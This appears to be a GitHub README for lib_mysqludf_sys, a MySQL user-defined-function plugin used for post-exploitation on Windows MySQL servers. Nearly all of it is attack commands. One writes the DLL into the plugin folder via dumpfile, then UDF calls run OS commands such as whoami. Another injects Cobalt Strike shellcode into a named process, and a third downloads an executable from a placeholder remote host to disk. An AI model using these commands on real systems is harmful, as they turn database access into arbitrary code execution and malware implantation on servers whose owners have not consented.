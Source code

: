 # lib_mysqludf_sys
lib_mysqludf_sys is a udf plugin of MySQL.

## Into Dumpfile

1.
```python3 udf_Bin2Hex.py 1 Release\lib_mysqludf_sys_x64.dll "C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\lib_mysqludf_sys_x64.dll" > lib_mysqludf_sys_x64.sql```

2.exec .sql file


## Sys_exec

```create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("chcp 65001 & ipconfig");drop function sys_exec;```

```create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("whoami");drop function sys_exec;```

## Inject

1.Generate Stage/Stageless RAW file for Cobalt Strike


2.Dumpfile in MySQL machine


3.Inject shellcode
```create function inject returns string soname "lib_mysqludf_sys_x64.dll"; select inject(hex(load_file("C:\\raw.bin")),"AppVNice.exe");drop function inject;```

## Download

```create function download returns string soname "lib_mysqludf_sys_x64.dll"; 
select download("http://xxxx/xxx.exe","C:\\11111.exe");drop function download;```


